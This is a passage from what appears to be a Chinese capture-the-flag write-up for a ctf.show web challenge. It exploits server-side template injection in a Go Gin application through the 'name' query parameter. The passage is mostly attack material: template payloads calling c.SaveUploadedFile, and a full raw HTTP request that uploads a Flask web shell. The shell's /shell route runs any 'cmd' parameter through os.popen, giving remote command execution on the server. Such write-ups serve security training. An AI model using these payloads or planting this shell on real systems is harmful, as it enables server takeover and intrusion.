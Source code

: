 直接 cat 即可

**payload 2**

```bash
{{c.SaveUploadedFile(c.FormFile(c.ClientIP()),c.Query(c.ClientIP()))}}
#或者
{{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
```

最终 payload

```bash
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
Host: 40802932-2116-47e3-8daa-197a8c7f52d7.challenge.ctf.show
Pragma: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Mobile Safari/537.36 Edg/113.0.1774.50
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.302713316.1678960921; session-name=MTY5MDc3MzU2MHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzuHa5qg0Ih9XrL5lJnL_2P1GR4TmLkG4O6giX1tuQtxQ==
Upgrade-Insecure-Requests: 1
Content-Length: xxx

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name=自己 ip; filename="server.py"
Content-Type: text/x-python

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        return os.popen(cmd).read()
    else:
        return 'shell'

if __name__== "__main__":
    app.run(host="127.0.0.1",port=5000,debug=True)
------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="submit"
```
